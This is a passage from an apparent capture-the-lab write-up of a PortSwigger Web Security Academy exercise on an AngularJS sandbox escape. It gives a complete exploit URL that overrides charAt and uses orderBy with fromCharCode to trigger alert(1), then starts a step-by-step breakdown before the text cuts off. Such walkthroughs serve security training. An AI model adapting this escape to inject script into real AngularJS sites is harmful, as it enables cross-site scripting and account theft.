
   <img width="820" height="284" alt="image" src="https://github.com/user-attachments/assets/69773d2b-6375-47b0-9eae-b12ce519aab9" />

3. View the **page source** and confirm your canary appears within an AngularJS expression block — indicating Angular is parsing the query parameter.


<img width="819" height="194" alt="image" src="https://github.com/user-attachments/assets/12a00ae0-c05f-4973-a81c-8130ca8013d0" />

---

##  AngularJS Sandbox Note

AngularJS expressions are sandboxed by design — meaning:
- You can't use unsafe features like `window`, `Function()`, or `eval()`.
- You also can’t use strings directly like `'alert'`.

To bypass this, we need to exploit Angular's internal mechanics.

---

## Final Exploit Payload

Replace `YOUR-LAB-ID` with your actual lab instance ID and paste this URL in the browser:

```

[https://YOUR-LAB-ID.web-security-academy.net/?search=1\&toString().constructor.prototype.charAt=\[\].join;\[1\]|orderBy\:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1](https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString%28%29.constructor.prototype.charAt=[].join;[1]|orderBy:toString%28%29.constructor.fromCharCode%28120,61,97,108,101,114,116,40,49,41%29=1)

````


<img width="872" height="143" alt="image" src="https://github.com/user-attachments/assets/cc0e5bd7-6b2a-4424-ae54-2c993d64ecc7" />


 This payload triggers `alert(1)` and **solves the lab**.


<img width="871" height="242" alt="image" src="https://github.com/user-attachments/assets/cf0748a2-1c53-453c-8210-059dbd51cabf" />


---

##  Payload Breakdown

Let’s break it down step by step:

### 1. Override `.charAt()`

```js
toString().constructor.prototype.charAt = [].join;
````
